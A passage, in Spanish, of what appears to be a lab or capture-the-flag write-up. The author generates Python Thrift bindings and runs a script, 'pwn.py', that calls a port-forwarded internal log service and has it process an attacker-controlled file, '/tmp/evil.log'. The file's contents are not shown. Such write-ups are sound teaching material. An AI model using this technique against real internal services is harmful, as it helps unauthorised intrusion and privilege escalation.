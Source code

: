 Ahora generamos los archivos necesarios para python para usar el objeto de Thrift.
```console
$ thrift --gen py log_service.thrift
```

Vemos que me ha creado un directorio `gen-py`
```console
$ ls
gen-py  log_service.thrift
```

Este es el script que he creado, simplemente hace uso de Thrift y del objeto para comunicarse con el servicio que está en el puerto 9090 "port-forwadeado" y enviar que quiero procesar el log en `/tmp/evil.log`.
```python
import sys
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService  # El archivo generado a partir del .thrift

def main():
    try:
        # Crear transporte
        transport = TSocket.TSocket('127.0.0.1', 9090)
        
        # Buffer del transporte
        transport = TTransport.TBufferedTransport(transport)
        
        # Protocolo binario
        protocol = TBinaryProtocol.TBinaryProtocol(transport)
        
        # Crear cliente
        client = LogService.Client(protocol)
        
        # Abrir el transporte
        transport.open()

        # Hacer la solicitud para leer el log
        result = client.ReadLogFile('/tmp/evil.log')
        print(f"Resultado de la lectura del log: {result}")

        # Cerrar el transporte
        transport.close()

    except Thrift.TException as tx:
        print(f"Error: {tx.message}")

if __name__ == "__main__":
    main()
```

Si lo ejecutamos.
```console
$ python3 pwn.py 
Resultado de la lectura del log: Log file processed
```
